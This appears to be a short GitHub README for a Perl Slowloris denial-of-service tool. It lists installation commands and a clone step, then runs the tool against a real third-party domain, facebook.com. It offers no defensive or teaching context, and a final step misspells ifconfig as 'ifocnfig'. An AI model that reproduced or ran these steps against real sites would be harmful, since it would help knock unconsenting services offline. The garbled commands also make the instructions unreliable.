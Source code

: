 
## slowloris-pl

### Step 1 ( installation )

```shell

# requirement

sudo apt-get update  

sudo apt-get install perl

sudo apt-get install libwww-mechanize-shell-perl

sudo apt-get install perl-mechanize

# cloning the project from github

git clone https://github.com/GHubgenius/slowloris.pl.git

cd slowloris.pl

```

## Step 2 ( run the program )

```shell

perl slowloris.pl -dns facebook.com

```

### Step 3 ( check total size of the packet )

```shell

# check the TX package size

ifocnfig

```